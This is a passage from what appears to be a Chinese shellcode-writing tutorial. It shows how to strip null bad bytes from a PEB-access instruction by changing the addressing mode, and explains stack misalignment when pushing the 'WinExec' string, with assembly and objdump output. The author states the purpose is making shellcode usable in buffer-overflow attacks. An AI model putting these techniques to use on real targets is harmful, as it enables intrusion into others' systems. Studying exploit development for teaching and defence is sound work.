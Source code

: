 可以看到 401018 地址处的指令：

```shell
  401018:       64 8b 1d 30 00 00 00    mov    ebx,DWORD PTR fs:0x30
```

这条指令包含了 0x00 坏字符。使用 WinREPL 也可以看到对应的机器码：

![Bad Char Winrepl](images/bad_char_winrepl.png)

包含 0x00 会使得 shellcode 在缓冲区溢出攻击上没那么有用，可以通过改变寻址方式修改机器码。

将原代码修改为：

```asm
    xor esi, esi
    mov ebx, [fs:0x30 + esi]
```

objdump 结果：

```shell
  401018:       31 f6                   xor    esi,esi
  40101a:       64 8b 5e 30             mov    ebx,DWORD PTR fs:[esi+0x30]
```

成功消除了 0x00 坏字符。

**问题2 栈对齐**

下面的代码会导致栈对齐问题：

```asm
    xor esi, esi
    push esi                ; null terminated
    push 0x63
    pushw 0x6578
    push 0x456e6957
```

`push esi` 和 `push 0x63` 后，栈均是 4 字节对齐。`pushw 0x6578` 后，栈变为 2 字节对齐。`push 0x456e6957` 后，栈仍然是 2 字节对齐。这导致调用 `WinExec` 时，栈不是 4 字节对齐，在 Window 10 以下的版本运行 `shellcode` 就可能会出现问题。

为了说明这个问题，可以在 x32dbg 上进行调试

![Stack Alignment](images/stack_alignment.png)
